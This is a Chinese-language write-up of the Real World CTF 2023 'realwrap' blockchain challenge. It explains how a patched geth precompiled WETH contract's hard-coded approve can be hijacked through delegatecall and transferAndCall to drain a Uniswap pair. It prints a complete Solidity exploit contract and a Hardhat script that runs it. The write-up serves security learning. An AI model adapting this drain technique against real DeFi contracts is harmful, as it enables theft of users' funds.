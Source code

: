 ```yaml
---
title: Blockchain - realwrap
description: 2023 | Real World CTF | Blockchain
tags:
    - smart contract
---
```


## 题目

WETH on Ethereum is too cumbersome! I'll show you what is real Wrapped ETH by utilizing precompiled contract, it works like a charm especially when exchanging ETH in a swap pair. And most important, IT IS VERY SECURE!

nc 47.254.91.104 20000

faucet: http://47.254.91.104:8080

RPC(geth v1.10.26 with realwrap patch): http://47.254.91.104:8545

[:material-download: `realwrap.zip`](static/realwrap.zip)

## 解题思路

- 目标是将 `UniswapV2Pair` 的 `reserve0` 和 `reserve1` 清零，即清空合约 `UniswapV2Pair` 持有的 `WETH` 和 `SimpleToken`
- 合约 `UniswapV2Pair` 中的函数 `swap` 在参数 `data` 不为空时，将调用外部合约的函数 `uniswapV2Call`，通过参数 `to` 控制，函数执行内容可自定义
    - 由于 `mint` 中永久锁定了一部分资金，因此合约 `UniswapV2Pair` 的余额始终小于 `totalSupply`，无法通过 `burn` 清空余额
- `WETH`（Wrapped Ether，以太币操作套用 `ERC20` 标准） 与 `SimpleToken` 不同，合约地址是固定的，在合约 `Factory` 中没有初始化的过程，用 `web3.eth.getCode` 也获取不到合约的字节码
- 随后意识到 `WETH` 是预编译合约，并注意到了文件 `geth_v1.10.26_precompiled.diff`
- 预编译合约的调用需要通过内联汇编，不过本题对预编译合约进行了包装（`contracts.go`），因此 `UniswapV2Pair` 中调用 `WETH` 中函数的方式与 `SimpleToken` 相同
- 接下来分析 `contracts_weth.go`，与标准的 `IERC20` 不同，还实现了一个 `transferAndCall` 函数

    ```go
    functions = map[string]RunStatefulPrecompileFunc{
        calculateFunctionSelector("name()"):                                 metadata("name"),
        calculateFunctionSelector("symbol()"):                               metadata("symbol"),
        calculateFunctionSelector("decimals()"):                             metadata("decimals"),
        calculateFunctionSelector("balanceOf(address)"):                     balanceOf,
        calculateFunctionSelector("transfer(address,uint256)"):              transfer,
        calculateFunctionSelector("transferAndCall(address,uint256,bytes)"): transferAndCall,
        calculateFunctionSelector("allowance(address,address)"):             allowance,
        calculateFunctionSelector("approve(address,uint256)"):               approve,
        calculateFunctionSelector("transferFrom(address,address,uint256)"):  transferFrom,
    }
    ```

- `transferAndCall` 能够在转账的同时，以设定的数据（`inputArgs.Data`）调用接收者合约[^evmcall]。若能让 `UniswapV2Pair` 调用 token 的 `approve` 函数就能够清空合约的余额

    ```go
    func transferAndCall(evm *EVM, caller common.Address, input []byte, suppliedGas uint64, readOnly bool) (ret []byte, remainingGas uint64, err error) {
        if readOnly {
            return nil, suppliedGas, ErrWriteProtection
        }
        inputArgs := &TransferAndCallInput{}
        if err = unpackInputIntoInterface(inputArgs, "transferAndCall", input); err != nil {
            return nil, suppliedGas, err
        }

        if ret, remainingGas, err = transferInternal(evm, suppliedGas, caller, inputArgs.To, inputArgs.Amount); err != nil {
            return ret, remainingGas, err
        }

        code := evm.StateDB.GetCode(inputArgs.To)
        if len(code) == 0 {
            return ret, remainingGas, nil
        }

        snapshot := evm.StateDB.Snapshot()
        evm.depth++
        defer func() { evm.depth-- }()

        if ret, remainingGas, err = evm.Call(AccountRef(caller), inputArgs.To, inputArgs.Data, remainingGas, common.Big0); err != nil {
            evm.StateDB.RevertToSnapshot(snapshot)
            if err != ErrExecutionReverted {
                remainingGas = 0
            }
        }

        return ret, remainingGas, err
    }
    ```

- 若在 `uniswapV2Call` 中直接使用 `transferAndCall`，调用者将为攻击者合约，因而可以通过代理调用来转换调用者
- 另外，`contracts_weth.go` 中实现的 `approve` 硬编码了状态修改的目标（`realWrappedEtherAddr`）

    ```go
    func approve(evm *EVM, caller common.Address, input []byte, suppliedGas uint64, readOnly bool) (ret []byte, remainingGas uint64, err error) {
        if evm.interpreter.readOnly {
            return nil, suppliedGas, ErrWriteProtection
        }
        inputArgs := &ApproveInput{}
        if err = unpackInputIntoInterface(inputArgs, "approve", input); err != nil {
            return nil, suppliedGas, err
        }

        return approveInternal(evm, suppliedGas, caller, inputArgs.Spender, inputArgs.Amount)
    }
    func approveInternal(evm *EVM, suppliedGas uint64, owner, spender common.Address, value *big.Int) (ret []byte, remainingGas uint64, err error) {
        if remainingGas, err = deductGas(suppliedGas, params.Keccak256Gas*2); err != nil {
            return nil, 0, err
        }
        loc := calculateAllowancesStorageSlot(owner, spender)

        if remainingGas, err = deductGas(suppliedGas, params.SstoreSetGas); err != nil {
            return nil, 0, err
        }

        evm.StateDB.SetState(realWrappedEtherAddr, loc, common.BigToHash(value))
        return math.PaddedBigBytes(common.Big1, common.HashLength), remainingGas, nil
    }
    ```

### Exploit

??? note "Hack.sol"

    ```js
    pragma solidity ^0.8.17;

    import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

    interface IUniswapV2Pair {
        function token0() external view returns (address);
        function token1() external view returns (address);
        function swap(uint256 amount0Out, uint256 amount1Out, address to, bytes calldata data) external;
        function sync() external;
    }

    contract Hack {
        address public WETH;
        address public token;
        IUniswapV2Pair public pair;
        constructor(address instance) payable {
            require(msg.value == 1);
            pair = IUniswapV2Pair(instance);
            WETH = pair.token0();
            token = pair.token1();
        }

        function exploit() public {
            pair.swap(0, 1, address(this), bytes("1"));
            IERC20(WETH).transferFrom(address(pair), address(this), IERC20(WETH).balanceOf(address(pair)));
            IERC20(token).transferFrom(address(pair), address(this), IERC20(token).balanceOf(address(pair)));
            pair.sync();
        }

        function uniswapV2Call(address sender, uint256 amount0, uint256 amount1, bytes calldata data) public {
            bytes memory approveCall = abi.encodeWithSignature(
                "approve(address,uint256)",
                address(this),
                type(uint256).max
            );
            address(WETH).delegatecall(approveCall);
            address(WETH).delegatecall(
                abi.encodeWithSignature(
                    "transferAndCall(address,uint256,bytes)",
                    token,
                    0,
                    approveCall
            ));
            IERC20(WETH).transfer(address(pair), 1);
        }
    }
    ```

??? note "exploit.js"

    ```js
    const { ethers } = require("hardhat");

    async function main() {
        const Factory = await ethers.getContractFactory("Factory");
        const factory = await Factory.attach(process.env.FACTORY_ADDRESS);

        console.log(`isSolved: ${await factory.isSolved()}`);

        const Hack = await ethers.getContractFactory("Hack");
        const hack = await Hack.deploy(await factory.uniswapV2Pair(), { value: 1 });
        await hack.deployed();

        let tx = await hack.exploit();
        await tx.wait();

        console.log(`isSolved: ${await factory.isSolved()}`);
    }

    main().catch((error) => {
        console.error(error);
        process.exitCode = 1;
    })
    ```

```bash
$ npm i
$ npx hardhat compile
$ export FACTORY_ADDRESS="<factory_address>"
# 编辑 hardhat.config.js，配置 url 和账户私钥
$ npx hardhat run scripts/exploit.js --network chall
```

### Flag

> rwctf{pREcOmpilEd_m4st3r_5TolE_mY_M0ney}

## 参考资料

- [Precompiled Contracts and Confidential Assets | by Qtum | Qtum](https://blog.qtum.org/precompiled-contracts-and-confidential-assets-55f2b47b231d)
- [7. Deploying to a live network | Ethereum development environment for professionals by Nomic Foundation](https://hardhat.org/tutorial/deploying-to-a-live-network)

[^evmcall]: [ethereum/go-ethereum](https://github.com/ethereum/go-ethereum/blob/master/core/vm/evm.go#L167)